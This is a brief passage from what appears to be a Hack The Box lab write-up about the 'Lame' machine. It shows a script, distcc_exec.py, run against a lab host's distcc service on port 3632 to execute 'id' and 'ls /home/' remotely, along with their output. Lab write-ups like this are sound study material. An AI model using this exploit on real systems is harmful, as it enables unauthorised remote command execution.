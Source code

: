 It runs and returns results:

```

root@kali# ./distcc_exec.py 10.10.10.3 3632 'id'
uid=1(daemon) gid=1(daemon) groups=1(daemon)

root@kali# ./distcc_exec.py 10.10.10.3 3632 'ls /home/'
ftp
makis
service
user

```

[« Lame FTP and SMB](/2020/04/07/htb-lame.html)